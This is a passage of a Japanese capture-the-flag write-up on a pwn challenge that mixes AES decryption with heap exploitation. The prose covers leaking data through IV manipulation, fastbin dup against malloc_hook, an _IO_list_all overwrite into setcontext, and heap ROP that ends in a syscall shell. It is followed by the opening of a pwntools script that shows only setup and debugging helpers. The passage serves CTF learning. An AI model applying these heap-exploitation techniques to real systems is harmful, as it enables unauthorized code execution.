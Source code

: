 ```
a. last 2byte is "12" -> "read_data" recieve as "1" -> "hextostring" decode as "\x01"
b. last 2byte is "03" -> "read_data" recieve as "0" -> "hextostring" decode as "\x00"
c. last 2byte is "3x" -> "read_data" recieve as "3" -> "hextostring" decode as "\x03"
```

要するに、復号されるバイト列のうち、最後の1バイトには`00`~`0f`しか入力できないため、バイト列の最後が"0X"になるようにIVを探せばよいです。その上で、例えば末尾を`1203`と解釈してほしい時は、`123`として送れば正しく復号してくれます。（fgetsのバッファ長-1の入力なので末尾に改行が残って、改行が消されます。）

これですべてリークができました。続いて任意書き込みです。

concealでは、暗号文のデータ長をstrlenで受けるので、nullが含まれると入力が中断されてしまいます。改行が入ってもだめなので、2つを含まないような暗号文を作る必要があります。ここでも平文の探索が必要です。

このとき１ブロック内に任意の入力が含められるようにすると、使える暗号文を入手できます。逆に１ブロックすべてが決められた値だと、nullが入った場合にそれ以上続けられなくなります。複数箇所にこのようなペイロードを作らざるを得ない場合は、成功率が非常に低くなります。

さてこれでfastbindupを作って、malloc_hookを狙いましたが、one_gadgetがすべて動かなかったため、謎パッチを疑い始めます。これをもう少しちゃんと掘れば、ここで済んでいたかもしれません。

次はio_list_all書き換えからヒープ上のsetcontext+0x35を狙ってheap ropからのsystemを狙います。狙い通り動作しましたが、forkが無限に続いてシェルが立ち上がりません。リモート環境でもどえらい出力になってしまいました。原因がよくわかりませんが、結論としてexecveでは立ち上がったので環境変数の方でなにか不都合あったのではと思っています。

しかしこの時点では、libcの関数への信用を一切捨て、heap ropからsyscallでシェルを立ち上げました。数箇所ペイロードが１ブロックを埋めてしまいましたが、そこそこ良い確率で刺さりますのでﾖｼとしました。

```python
from pwn import *
from binascii import hexlify,unhexlify
from Crypto.Cipher import AES
import struct
import os
context.log_level = 'debug'
context.arch = 'amd64'

TARGET = './chall'
HOST = '35.245.143.0'
PORT = 1337

elf = ELF(TARGET)
def start():
    if not args.R:
        print("local")
        return process(['./ld-linux-x86-64.so.2', TARGET], env={"LD_PRELOAD":"./libc.so.6 ./libcrypto.so.1.0.0"})
        # return process(TARGET)
        # return process(TARGET, env={"LD_PRELOAD":"./libc.so.6"})
        # return process(TARGET, stdout=process.PTY, stdin=process.PTY)
    else:
        print("remote")
        return remote(HOST, PORT)

def get_base_address(proc):
    lines = open("/proc/{}/maps".format(proc.pid), 'rb').readlines()
    for line in lines :
        if TARGET[2:] in line.split('/')[-1] :
            break
    return int(line.split('-')[0], 16)
    # return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

def debug(proc, breakpoints):
    script = "handle SIGALRM ignore\n"
    PIE = get_base_address(proc)
    script += "set $base = 0x{:x}\n".format(PIE)
    for bp in breakpoints:
        script += "b *0x%x\n"%(PIE+bp)
    script += "c"
    gdb.attach(proc, gdbscript=script)
```
